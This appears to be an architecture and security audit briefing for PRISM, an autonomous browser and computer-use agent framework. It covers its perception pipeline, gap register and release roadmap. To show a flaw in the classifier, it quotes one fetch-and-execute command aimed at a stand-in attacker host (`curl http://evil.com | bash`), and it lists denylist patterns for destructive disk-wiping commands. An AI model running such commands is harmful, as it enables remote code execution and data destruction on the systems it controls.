


# PRISM — Systems Architect Briefing

**Date**: 2026-06-04  
**Version**: v0.21.0 (`prism-core`)  
**Role**: Lead Systems Architect / AI Researcher / Product Strategist  

---

## 1. Architecture Overview

### 1.1 Codebase Topology

```
prism-core/
├── src/
│   ├── index.ts                    # Main entrypoint (44 KB)
│   ├── core/                       # 26 modules — the nervous system
│   │   ├── runtime/                # Agent loops & orchestration
│   │   │   ├── autonomous-browser-agent.ts    (428 LOC)
│   │   │   ├── autonomous-computer-agent.ts   (414 LOC)
│   │   │   ├── autonomous-agent-loop.ts       (23 KB)
│   │   │   ├── autonomous-planner.ts          (22 KB)
│   │   │   ├── demonstration-engine.ts        (37 KB)
│   │   │   └── orchestrator.ts                (23 KB)
│   │   ├── operator/               # Dashboard, LLM provider, sessions
│   │   │   ├── dashboard-service.ts           (458 KB — monolith)
│   │   │   ├── llm-provider-manager.ts        (118 KB)
│   │   │   ├── model-capability-matrix.ts     (111 KB)
│   │   │   ├── browser-session-manager.ts     (26 KB)
│   │   │   ├── chat-session-store.ts          (60 KB)
│   │   │   ├── sshp-interceptor.ts            (7 KB)
│   │   │   └── csh-manager.ts                 (7 KB)
│   │   ├── tools/                  # Tool contracts, registry, governance
│   │   ├── agents/                 # Pool, lifecycle, swarm, telemetry
│   │   ├── policy/                 # 3-tier authority engine
│   │   ├── security/               # PAD, artifact signing, directive manifest
│   │   ├── incubation/             # CCC, DLMA, SHWS prototypes
│   │   ├── llre/                   # Cognitive Economics (TEQ, RSI, CSR, TCA)
│   │   └── ...                     # memory, activity, approval, config, etc.
│   ├── adapters/                   # Tool adapters
│   │   ├── system/                 # Shell, filesystem, browser-control, terminal, container
│   │   ├── protocol/               # HTTP tool
│   │   ├── application/            # Neo4j, memory, email/calendar OAuth
│   │   ├── network/                # 50+ curated network commands
│   │   └── cognition/              # SR tool
│   ├── plugins/                    # MCP server plugins (loc-research)
│   ├── ptac/                       # Self-driving test harness (28 scenarios)
│   ├── tui/                        # Terminal UI (Ink/React)
│   └── cli/                        # Setup wizard
├── tests/                          # Unit, integration, e2e
├── docs/                           # 140+ docs, 5 subdirectories
├── config/                         # Plugin/release signing keys
├── scripts/                        # CI, perf, soak, stress, release tooling
└── sdk/                            # Python SDK
```

### 1.2 Tech Stack

| Layer | Technology | Notes |
|-------|-----------|-------|
| **Language** | TypeScript (strict) | ESM modules, Node.js runtime |
| **Build** | `tsc` | No bundler; compiled to `dist/` |
| **Browser Automation** | Playwright 1.58 | Chromium/Firefox/WebKit |
| **Image Processing** | Sharp 0.34 | SSHP visual redaction overlays |
| **Database** | SQLite3 (WAL mode) | Activity traces, sessions, LLRE metrics |
| **Realtime** | WebSocket (ws 8.20) | Event streaming, dashboard sync |
| **TUI** | Ink 5 + React 18 | Terminal-based operator interface |
| **Process Mgmt** | PM2 | Production auto-restart |
| **Container** | Docker (optional) | Built-in filesystem sandbox is default |
| **Testing** | Node test runner + Mocha | 60+ test files |
| **CI** | GitHub Actions | PAD integrity gate, PTAC fast suite |

### 1.3 Key Dependencies

| Dependency | Purpose | Risk |
|-----------|---------|------|
| `playwright` | Core browser automation | **Critical path** — pinned to 1.58 |
| `sharp` | SSHP screenshot redaction | Native binary, cross-platform |
| `sqlite3` | All persistence | No Postgres in production yet |
| `node-pty` | Real PTY terminal sessions | Optional — graceful fallback |
| `dockerode` | Container orchestration | Optional — built-in runtime preferred |

---

## 2. Computer Use & Browser Use — Posture Audit

### 2.1 What's Shipped (Production-Ready)

| Capability | Implementation | Evidence |
|-----------|---------------|----------|
| Browser session lifecycle | `browser-session-manager.ts` | PTAC s07, s08, s27 |
| Action-driven browser control | 8 action types: navigate, click, type, screenshot, evaluate, scroll, wait, extract | Unit tests + PTAC |
| Accessibility-first perception | DOM query for interactive elements (a, button, input, select, textarea, role="button/link") | `AutonomousBrowserAgent.perceive()` |
| Screenshot fallback perception | Playwright `.screenshot()` when a11y fails | Implemented with error boundary |
| LLM-driven autonomous browser loop | `AutonomousBrowserAgent.executeObjective()` — perceive→LLM→act→repeat, max 20 steps | Wired through `/api/chat` |
| Shell command execution | `AutonomousComputerAgent.executeCommand()` with risk classification | 4-tier: low/medium/high/critical |
| Command denylist enforcement | Regex patterns block `rm -rf /`, `format c:`, `del /s /q c:\` | Tested |
| LLM-driven autonomous computer loop | `AutonomousComputerAgent.executeObjective()` — think→command→repeat, max 15 steps | Wired |
| SSHP privacy interceptor | Visual PII redaction (password, CC, SSN) + DOM regex scrubbing + Sacred Covenant audit | `sshp-interceptor.ts`, 7 KB |
| CSH Baton Pass | State serialization (cookies, localStorage, sessionStorage) + FSM suspended state + resume | `csh-manager.ts`, 7 KB |
| PTAC self-driving harness | 28 scenarios drive PRISM via public HTTP/WS surface | `ptac/` directory |
| "Watch Me" tab | Operator observes autonomous loop in real-time with stop button | v0.21 additive |
| Activity bus telemetry | All CUA/BUA actions emit structured events with SHA-256 hashing | `bua.*` / `cua.*` operations |

### 2.2 What's Partial or In-Progress

| Capability | Current State | Gap |
|-----------|--------------|-----|
| `screenshotDiff` / `clickAt` / `typeText` PTAC steps | Recorder primitives exist | PTAC step kinds not wired |
| OSWorld benchmark integration | Script exists (`npm run ptac:osworld`) | Not yet run against real benchmark |
| Multi-tab browser reliability | Single-session pattern dominant | Advanced multi-tab orchestration untested |
| Visual grounding (DSVAR) | Accessibility-tree based selector resolution | No coordinate-based visual grounding |
| Event-driven screenshot triggers | Polling-based perception (every step) | No MutationObserver-triggered capture |

### 2.3 What's Missing vs SOTA

| SOTA Capability | Industry Reference | PRISM Status | Impact |
|----------------|-------------------|-------------|--------|
| **Native vision-coordinate grounding** | Anthropic CUA pixel counting, OpenAI CUA coordinate emission | ❌ Not implemented — relies on CSS selectors only | Cannot interact with apps lacking DOM (canvas, images, desktop) |
| **Multimodal vision input to LLM** | All SOTA systems send screenshots as image tokens | ❌ Screenshots captured but not sent to LLM as vision — only text a11y tree | Loses 40-60% of page context on visually rich sites |
| **Structured action schemas** | Anthropic `computer_20241022` tool, OpenAI `computer_call` | ⚠️ JSON-in-text parsing (`/\{[^}]+\}/` regex) | Fragile — nested JSON, multi-line responses break parser |
| **DOM + Vision fusion** | browser-use hybrid perception | ⚠️ Accessibility tree OR screenshot, never fused | Miss cross-referencing opportunities |
| **Checkpoint & continuation** | browser-use Lambda checkpoint, OpenAI CUA loop | ❌ No checkpoint/resume for long-horizon tasks | Agent restarts lose all progress |
| **Dynamic Semantic-Visual Anchor Resolver** | Planned in `sota_browser_roadmap.md` | ❌ Not implemented | Selectors break on dynamic SPAs |
| **Reinforcement learning for GUI** | OpenAI CUA RL-optimized, OpAgent rule-based RL | ❌ No RL component | Cannot learn from failures across sessions |

---

## 3. Agent Loop Architecture Analysis

### 3.1 AutonomousBrowserAgent State Machine



**Key observations:**

1. **No `suspended` state** — the BUA FSM has no concept of CSH baton pass at the agent level. The `csh-manager.ts` exists but isn't wired into `AutonomousBrowserAgent`.
2. **Linear step loop** — `executeObjective()` is a simple `for` loop with no parallelism, no branching, no retry with backoff.
3. **Conversation trimming at 30 messages** — aggressive context window management, but no summarization of dropped context.
4. **Action parsing is brittle** — `llmResult.content.match(/\{[^}]+\}/)` fails on nested JSON objects, multi-action responses, or markdown-wrapped JSON.

### 3.2 AutonomousComputerAgent State Machine



**Key observations:**

1. **`execSync` fallback** — when no `execFn` is provided, the agent blocks on `execSync` with a 30-second timeout. This is a reliability risk for long-running commands.
2. **Risk classification is regex-only** — no semantic analysis of command intent. `curl http://evil.com | bash` would pass as "low risk".
3. **No working directory validation** — `setWorkingDirectory(dir)` accepts any string; no verification that dir exists or is within sandbox boundaries.
4. **Conversation trimmed at 24 messages** — even more aggressive than BUA.

### 3.3 Perception Pipeline (Browser)

```
┌─────────────────────────────────────────────────────────────────┐
│                    AutonomousBrowserAgent.perceive()            │
├─────────────────────────────────────────────────────────────────┤
│                                                                 │
│  1. Inject JS → query interactive elements                     │
│     (a, button, input, select, textarea, [role=button/link])   │
│     Cap: first 100 elements                                    │
│                                                                 │
│  2. Extract: { index, role, tag, text (80 chars), name }       │
│                                                                 │
│  3. Serialize to JSON string → accessibilityTree               │
│                                                                 │
│  4. On failure → attempt screenshot fallback                   │
│     (but screenshot is NOT sent as vision to LLM)              │
│                                                                 │
│  Result: text-only page representation                         │
└─────────────────────────────────────────────────────────────────┘
```

> [!WARNING]
> The perception pipeline has a hard cap of 100 interactive elements and 80-character text truncation. Complex enterprise dashboards, SPAs with dynamic content, or data-heavy tables will produce incomplete or misleading state representations.

---

## 4. Security Architecture

### 4.1 Defense-in-Depth Layers

| Layer | Mechanism | Status |
|-------|----------|--------|
| **L1: Network** | Token auth, rate limiting, TLS | ✅ Shipped |
| **L2: Policy** | 3-tier governance (autonomous/conditional/approval) | ✅ Shipped |
| **L3: PAD Integrity** | SHA-256 hash of 10 Laws, verified at boot + every 10 min | ✅ Shipped |
| **L4: SSHP** | PII redaction, DOM scrubbing, Sacred Covenant audit | ✅ Shipped (basic) |
| **L5: Command Safety** | Denylist patterns, risk classification | ✅ Shipped |
| **L6: Container Isolation** | Built-in filesystem sandbox OR Docker | ✅ Shipped |
| **L7: CAC** | Character→Operator→Session accountability chain | ✅ Shipped |

### 4.2 Known Security Gaps

| Gap | Risk Level | Remediation |
|-----|-----------|-------------|
| SSHP is toggleable — operator can disable all redaction | Medium | Consider making SSHP mandatory for Business profile |
| No prompt injection defense in browser automation | High | Add input sanitization before LLM context injection |
| `evaluate()` executes arbitrary JS in page context | High | Sandbox evaluate calls; restrict to allowlisted expression patterns |
| Command risk classification misses piped commands | High | Parse command pipelines and evaluate each segment independently |
| No secrets scanning in command output before feeding to LLM | Medium | Run output through SSHP-style scrubbing before conversation injection |

---

## 5. Gap Register (Ranked by Business Impact)

| # | Gap | Impact | Effort | Priority |
|---|-----|--------|--------|----------|
| 1 | **No vision input to LLM** — screenshots exist but never sent as image tokens | Blocks interaction with visual-only UIs, reduces accuracy on complex pages | M (2-3 days) | **P0** |
| 2 | **Action JSON parser fragility** — regex-only extraction | Silent failures on nested JSON, multi-action responses | S (1 day) | **P0** |
| 3 | **No checkpoint/resume for long-horizon tasks** | Agent restarts lose all progress; max ~20 steps | M (3-5 days) | **P1** |
| 4 | **CSH not wired into agent loops** | Baton pass exists but agents don't invoke it | S (1-2 days) | **P1** |
| 5 | **Dashboard monolith** — `dashboard-service.ts` is 458 KB | Unmaintainable; merge conflicts; cognitive overload | L (1-2 weeks) | **P1** |
| 6 | **No visual grounding (DSVAR)** | Cannot handle canvas apps, image-heavy sites | L (1-2 weeks) | **P2** |
| 7 | **`execSync` blocking fallback** in CUA | Process hangs on long commands | S (1 day) | **P2** |
| 8 | **Perception element cap (100) too low** | Enterprise dashboards misrepresented | S (1 day) | **P2** |
| 9 | **OSWorld benchmarks never run** | No first-party performance baseline | M (3-5 days) | **P2** |
| 10 | **Prompt injection in browser context** | Attacker-controlled page content enters LLM | M (2-3 days) | **P1** |

---

## 6. Product Milestone Map

### Current: v0.21.0 — "Watch Me" Autonomous Demo ✅

### Next: v0.22.0 — "Vision-First Browser Agent" (Target: 2026-Q3)

| Deliverable | Description |
|------------|-------------|
| Multimodal perception | Send Playwright screenshots as base64 image tokens to vision-capable LLMs |
| Structured action parsing | Replace regex with proper JSON extraction (code-fence detection, multi-action batching) |
| CSH wiring | Wire `csh-manager.ts` into `AutonomousBrowserAgent` FSM with roadblock detection |
| Checkpoint/resume | Serialize agent state + browser state to SQLite; resume from checkpoint on restart |
| Prompt injection defense | Sanitize page-sourced text before LLM context injection |

### v0.23.0 — "Self-Healing Selectors" (Target: 2026-Q3)

| Deliverable | Description |
|------------|-------------|
| DSVAR prototype | Visual grounding with coordinate mapping + accessibility tree fusion |
| Retry with selector fallback | On failed click, re-perceive and try alternative selectors |
| Event-driven perception | MutationObserver triggers screenshot capture instead of polling |
| Dashboard decomposition | Break `dashboard-service.ts` into route modules |

### v0.24.0 — "Benchmark Validated" (Target: 2026-Q4)

| Deliverable | Description |
|------------|-------------|
| OSWorld first-party run | Execute benchmark, publish results with methodology |
| WebArena evaluation | Self-hosted WebArena instance, measure task completion rate |
| Cross-tool orchestration tests | Browser + terminal + container combined scenarios |
| Performance baseline | p50/p95 latencies for all CUA/BUA action types |

### v1.0.0 — "Production Computer Use" (Target: 2027-Q1)

| Gate | Requirement |
|------|-------------|
| Governance | All CUA/BUA pathways pass 3-tier governance (allow/deny/timeout/revoke) |
| Security | SSHP mandatory for Business, prompt injection defense validated |
| Reliability | 95%+ success rate on WebArena easy tier |
| Performance | p95 action latency < 2s for browser, < 5s for computer |
| Evidence | First-party benchmark results published |

---

## 7. Next Steps

- [ ] **P0 — Vision input**: Wire Playwright screenshot base64 into LLM `generateFn` calls for vision-capable models (Claude, GPT-4o). Requires `llm-provider-manager.ts` changes to support image content blocks.
- [ ] **P0 — Action parser hardening**: Replace `match(/\{[^}]+\}/)` with proper JSON extraction — detect code fences, handle nested objects, support multi-action arrays.
- [ ] **P1 — Wire CSH into agent loops**: Add roadblock detection hooks (CAPTCHA patterns, OAuth redirects, HTTP 401/403) in `AutonomousBrowserAgent.executeObjective()` and trigger `csh-manager.initiateHandoff()`.
- [ ] **P1 — Checkpoint/resume**: Design `AgentCheckpointStore` (SQLite) to persist `BrowserAgentGoalState` + conversation history. Add `resumeFromCheckpoint()` to both agents.
- [ ] **P1 — Prompt injection defense**: Implement content sanitization layer between page-sourced text and LLM context. Strip script tags, data-URIs, and injection patterns from accessibility tree text content.
- [ ] **P1 — Dashboard decomposition**: Extract route handlers from `dashboard-service.ts` (458 KB) into `src/core/operator/routes/` modules by domain (browser, computer, agentic, chat, settings).
- [ ] **P2 — Replace `execSync`**: Switch CUA fallback from `execSync` to `execFile` with proper async handling and streaming output.
- [ ] **P2 — Perception cap increase**: Raise interactive element cap from 100 to 500; add pagination/summarization for very large pages.
- [ ] **P2 — OSWorld benchmark run**: Stand up benchmark environment, run baseline evaluation, document methodology and results.
- [ ] **P2 — DSVAR prototype**: Begin coordinate mapping + accessibility tree fusion for visual grounding.

---

> [!IMPORTANT]
> The single highest-impact change for PRISM's browser use capability is **adding vision input to the LLM loop**. The current accessibility-tree-only perception misses visual context that represents the majority signal for modern web pages. This is a 2-3 day effort that would immediately unlock interaction with canvas-rendered UIs, image-heavy pages, and visually complex enterprise dashboards.
